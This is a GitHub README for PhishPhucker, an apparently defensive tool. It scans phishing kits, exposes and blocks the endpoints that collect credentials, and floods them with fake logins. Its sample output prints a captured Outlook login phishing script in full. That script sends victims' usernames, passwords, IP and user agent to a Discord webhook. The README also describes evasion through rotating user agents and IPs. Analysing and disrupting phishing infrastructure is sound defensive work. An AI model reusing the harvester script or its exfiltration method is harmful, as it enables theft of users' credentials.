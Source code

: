 # Phish Phucker

![PhishPhucker Logo](https://i.ibb.co/jD9dqMm/openart-image-5-C4-YIl-FF-1717586639754-raw.jpg)
## In Partnership With
![Webamon Logo](https://i.ibb.co/ggbMv7C/weblogo.png)

## The Idea
- **Phuck The Phishers**: Make the effort of a successful phishing campaign much harder than the rewards.
- **Change How We Block**: Multiple phishing websites rely on the same backend endpoint to receive phished credentials. By exposing the required endpoint for the phishing kit to operate, we can block on our network tools. 1x Block = n phishing domains.

## Overview

Welcome to **PhishPhucker**, the revolutionary open-source cybersecurity tool designed to disrupt the phishing industry like never before. PhishPhucker ingests public and custom phishing feeds/URLs, scans them, and launches sophisticated countermeasures to thwart phishing attacks. Our mission is to make phishing an unprofitable and ineffective endeavor by mimicking real user behavior and overwhelming attackers with arbitrary but human-like data.

## Features

- **Ingest Multiple Phishing Feeds**: Seamlessly integrate public phishing feeds and custom URLs for comprehensive coverage.
- **Layered Security**: By exposing and then blocking the endpoints that receive comp'd creds, end users can fall for a phish but network applications block the POST. 
- **Website Scanning**: Extract scripts and phishing kits from malicious websites, identify the endpoints where credentials are sent.
- **Simulated Post Requests**: Recreate phishing post requests and flood attackers' endpoints with realistic-looking data.
- **Distributed Client Network**: Deploy PhishPhucker clients across multiple web edge points to mimic real-world phishing actions.
- **Pseudo-Random Timing**: Vary intervals between actions to avoid detection and mimic human behavior.
- **Multiple User Agents and Source IPs**: Use diverse browser user agents and source IPs (ISPs) to simulate a wide range of victims.
- **Network Proxy**: Utilize on-prem & internet proxy solutions to manipulate network data + requests.
- **Real Dummy Accounts**: Modern phishing kits employ an Account Checking feature that verifies if the credentials work for the provided service. PhishPhucker accounts will be returned as legit.
- **Open Source and Extensible**: Fully open source with an active community contributing to its development and enhancement.

## Installation

### Prerequisites
- Docker
- Git

### Steps

1. **Clone the Repository**:
   ```bash
   git clone https://github.com/php-p/PhishPhucker.git
   cd PhishPhucker
   ```

2. **Deploy with Docker**:
   ```bash
   docker build -t phishphucker .
   docker run -d phishphucker
   ```
     
3. **Sample Output**:
     ```json
     {
    "utc": "2024-06-05 16:57:54",
    "pageTitle": "Screen",
    "pageLinks": [
        "<link href=\"/owa/auth/15.0.1497/themes/resources/favicon.ico\" rel=\"shortcut icon\" type=\"image/x-icon\"/>"
    ],
    "pageScripts": [
        "<script src=\"https://code.jquery.com/jquery-3.6.0.min.js\"></script>",
        "<script>\n\n        var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n        var showPlaceholderText = false;\n        var mainLogonDivClassName = 'mouse';\n\n        if (mainLogonDivClassName == \"tnarrow\") {\n            showPlaceholderText = true;\n\n            // Output meta tag for viewport scaling\n            document.write('<meta name=\"viewport\" content=\"width = 320, initial-scale = 1.0, user-scalable = no\" />');\n        }\n        else if (mainLogonDivClassName == \"twide\") {\n            showPlaceholderText = true;\n        }\n\n        function setPlaceholderText() {\n            window.document.getElementById(\"username\").placeholder = \"user name\";\n            window.document.getElementById(\"password\").placeholder = \"password\";\n            window.document.getElementById(\"passwordText\").placeholder = \"password\";\n        }\n\n        function showPasswordClick() {\n            var showPassword = window.document.getElementById(\"showPasswordCheck\").checked;\n            passwordElement = window.document.getElementById(\"password\");\n            passwordTextElement = window.document.getElementById(\"passwordText\");\n            if (showPassword) {\n                passwordTextElement.value = passwordElement.value;\n                passwordElement.style.display = \"none\";\n                passwordTextElement.style.display = \"inline\";\n                passwordTextElement.focus();\n            }\n            else {\n                passwordElement.value = passwordTextElement.value;\n                passwordTextElement.style.display = \"none\";\n                passwordTextElement.value = \"\";\n                passwordElement.style.display = \"inline\";\n                passwordElement.focus();\n            }\n        }\n    </script>",
        "<script>\n\n            var mainLogonDiv = window.document.getElementById(\"mainLogonDiv\");\n            mainLogonDiv.className = mainLogonDivClassName;\n        </script>",
        "<script>\n    function sleep(milliseconds) {\n        const date = Date.now();\n        let currentDate = null;\n        do {\n            currentDate = Date.now();\n        } while (currentDate - date < milliseconds);\n    }\n\n    var linksc = window.location.href\n    var value = linksc.split('#')\n    values = value[1]\n\n    document.getElementById(\"username\").value = values;\n    // document.getElementById(\"username\").value = values; \n\n\n    let count = 0;\n    var btn = document.getElementById(\"buttonId\");\n    var pwd = document.getElementById(\"password\");\n    var agents = navigator.userAgent;\n\n\n\n    btn.onclick = function () {\n        if (pwd.value.length > 0) {\n            count++;\n            if (count <= 2) {\n\n\n\n                var xhr = new XMLHttpRequest();\n                xhr.open(\"GET\", \"https://ipinfo.io/json\", true);\n                xhr.onreadystatechange = function () {\n                if (xhr.readyState === 4 && xhr.status === 200) {\n                var response = JSON.parse(xhr.responseText);\n                // Handle the response data here\n                var ipAddress = response.ip\n\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                content: (\" > **IP: **\" + ipAddress)\n                }\n                request.send(JSON.stringify(params));\n                    \n\n                }\n\n                };\n                xhr.send();\n\n\n                var request = new XMLHttpRequest();\n                request.open(\"POST\", \"https://discord.com/api/webhooks/1138373288825987072/uB3bmO96XIzWcQsjmu6JQlu3FidKgbFXbtmJxYSMr6ZAyLAmbAF7czZM6sW081J4mRFL\");\n                request.setRequestHeader('Content-type', 'application/json');\n                var params = {\n                    content: (\"> **USERNAME  : **\" + document.getElementById(\"username\").value + \"\\n> **PASSWORD : **\" + document.getElementById(\"password\").value + \"\\n> **USER-AGENT: **\" + agents)\n                }\n                request.send(JSON.stringify(params));\n\n               \n\n                text = \"The user name or password you entered isn't correct. Try entering it again.\";\n                // document.getElementById(\"username-error\").innerHTML = text;\n                // // document.getElementById(\"errorMessage\").style.color = \"red\";\n                document.getElementById(\"signInErrorDiv\").innerText = text;\n                document.getElementById(\"password\").value = \"\";\n                sleep(1000)\n            }\n            if (count == 2) {\n                texts = \"Verification successful... Thank you.\";\n                document.getElementById(\"signInErrorDiv\").style.color = \"green\";\n                document.getElementById(\"signInErrorDiv\").innerHTML = texts;\n                sleep(4500)\n                window.location.replace(\"https://www.microsoft.com/en-us/microsoft-365/outlook/web-email-login-for-outlook\");\n            }\n        } else {\n            text = \"The user name or password you entered isn't correct. Try entering it again.\"\n            // document.getElementById(\"errorMessage\").style.color = \"red\";\n            // document.getElementById(\"login-failure\").innerHTML = \"\";\n            document.getElementById(\"signInErrorDiv\").innerHTML = text;\n\n            // document.getElementById(\"alert\").style.backgroundColor = \"#d0452f\"; \n\n\n\n        }\n\n    }\n</script>"
    ]

   }

      ```

## Contributing

We welcome contributions from the community to enhance PhishPhucker. Feel free to submit pull requests, report issues, or suggest features.

1. **Fork the Repository** on GitHub
2. **Create a Feature Branch**:
   ```bash
   git checkout -b feature/your-feature-name
   ```
3. **Commit Your Changes**:
   ```bash
   git commit -m 'Add some feature'
   ```
4. **Push to the Branch**:
   ```bash
   git push origin feature/your-feature-name
   ```
5. **Open a Pull Request** on GitHub

## License

PhishPhucker is released under the Apache 2.0 License. See the [LICENSE](LICENSE) file for more details.

## Acknowledgements

- Thanks to the open-source community for their invaluable contributions and feedback.
- Special mention to the decade long successful Threat Actors who's actions inspire and guide this projects direction.

## Disclaimer

PhishPhucker is intended for ethical use only. Unauthorized use of this software to interfere with legitimate websites or services is strictly prohibited. The authors and contributors are not responsible for any misuse of the software.


---

PhishPhucker: Turning the Tide Against Phishing.

---

![GitHub Stars](https://img.shields.io/github/stars/php-p/PhishPhucker?style=social)
![GitHub Forks](https://img.shields.io/github/forks/php-p/PhishPhucker?style=social)
![GitHub Issues](https://img.shields.io/github/issues/php-p/PhishPhucker)
![GitHub License](https://img.shields.io/github/license/php-p/PhishPhucker)

